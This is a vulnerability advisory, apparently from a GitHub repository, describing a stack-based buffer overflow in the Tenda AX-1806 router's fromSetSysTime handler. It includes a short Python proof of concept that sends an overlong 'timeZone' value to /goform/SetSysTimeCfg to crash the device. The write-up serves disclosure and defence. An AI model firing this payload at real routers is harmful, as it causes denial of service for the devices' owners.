



# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen


## Vulnerability cause

In the function fromSetSysTime, the timeZone value is obtained from user-controlled input via v2 = (const char *)sub_295C8(a1, "timeZone", &unk_1C2CF0) and is then copied into the local buffer at (char *)&v22 using strcpy((char *)&v22, v2) when the strchr(v2, 58) check fails. The destination (char *)&v22 points into a fixed-size stack region starting at v22 (with adjacent stack variables such as v23, v24, v25, etc. laid out consecutively), while strcpy performs no bounds checking on the length of the source string. Because the "timeZone" parameter is directly supplied by the user and no maximum length is enforced, an attacker can provide an excessively long value without a colon to enter this branch and cause strcpy to write past the intended bounds of the v22 region. This results in a stack-based buffer overflow that corrupts adjacent stack memory and can overwrite neighboring variables or control data, ultimately leading to a process crash and a Denial of Service condition.


<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/SetSysTimeCfg"

timeZone = "A"*7000
data = {
"timeZone": timeZone
}

r = requests.post(url, data=data)
print(r.status_code, r.text)
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>